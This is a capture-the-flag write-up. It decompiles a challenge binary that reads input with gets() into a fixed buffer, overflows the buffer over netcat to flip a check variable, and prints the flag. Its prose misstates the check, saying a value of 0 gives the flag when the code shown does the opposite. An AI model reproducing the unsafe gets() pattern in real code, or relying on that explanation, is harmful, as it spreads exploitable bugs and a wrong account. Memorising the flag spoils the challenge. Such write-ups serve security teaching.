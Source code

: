 # Well hello there

> We initiated the development of a bot. So far it greets you by your name. Can you test it? Access: `nc challenges.defsoc.tk 22228`

Opened the `main` function of the program in Ghidra:

![image-20210811084846461](img/image-20210811084846461.png)

```c
undefined8 main(void)

{
  char acStack88 [76];
  int local_c;
 
  puts("Hello there! What is your name?");
  fflush(stdout);
  local_c = 0;
  gets(acStack88);
  if (local_c == 0) {
    printf("Well, hello %s!",acStack88);
  }
  else {
    system("cat flag.txt");
  }
  putchar(10);
  return 0;
}

```

It checks the value of `local_c`: if it's `0`, it will give the flag. However, `acStack88` is declared before `local_c`: as a consequence, if we write our name longer than 76 characters, it will overwrite `local_c` value. Yes, we have here a simple buffer overflow!

```bash
$ nc challenges.defsoc.tk 22228   
Hello there! What is your name?
000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
flag{buff3r_0v3rfl0w_r0cks}
```

## Flag

```
flag{buff3r_0v3rfl0w_r0cks}
```

